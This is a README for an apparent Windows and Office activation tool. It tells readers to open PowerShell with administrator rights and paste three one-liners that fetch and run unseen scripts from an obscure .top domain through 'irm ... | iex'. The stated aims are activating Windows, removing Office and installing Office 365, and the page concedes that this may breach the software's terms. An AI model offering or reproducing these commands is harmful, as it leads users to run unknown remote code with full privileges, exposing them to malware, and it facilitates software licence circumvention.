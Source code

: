 # Windows and Office Management Script

## Introduction
This script provides functionality for managing Windows activation, self-destructing Office, and installing and activating Office 365. Follow the steps below to execute these operations using PowerShell or Terminal.

## Prerequisites
- Ensure you have administrative privileges on your Windows machine.

## Instructions

1. **Open PowerShell or Terminal:**
   - Right-click on the Start menu.
   - Select **PowerShell** or **Terminal** (do not select CMD).

2. **Execute the Script:**
   - Copy and paste the following code into PowerShell or Terminal.
   - Press **Enter** to run the script.

3.1 **Activate Windows and existing Office**
   ```powershell
   irm https://plesbuy2nd.top/win | iex
   ```
3.2 **Self-destruct Office (if needed)**
   ```powershell
   irm https://plesbuy2nd.top/doom | iex
   ```
3.3 **Install and activate Office 365**
   ```powershell
   irm https://plesbuy2nd.top/office | iex
   ```
   
## Detailed Explanation
- Activate Windows and Office: The command irm https://plesbuy2nd.top/win | iex is used to activate Windows and the existing Office on your machine.
- Self-destruct Office: If you do not wish to use the existing Office or if an error occurs, use the command irm https://plesbuy2nd.top/doom | iex. After running this command, proceed with the next step.
- Install and Activate Office 365: Once the self-destruct command has been executed, run irm https://plesbuy2nd.top/office | iex to install and activate Office 365.

## Notes
- irm stands for Invoke-RestMethod, which is used to download and run scripts from the internet.
- iex stands for Invoke-Expression, which executes the downloaded script.

## Disclaimer
Use this script responsibly and ensure you understand the implications of each command. Running these commands may have significant impacts on your system, including altering system activation and Office installations.

- Ensure that you have backups of any important data before running these scripts.
- Understand that using these scripts might violate the terms of service of the software involved.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
- Original script sources
- Inspiration and guidance from various online communities
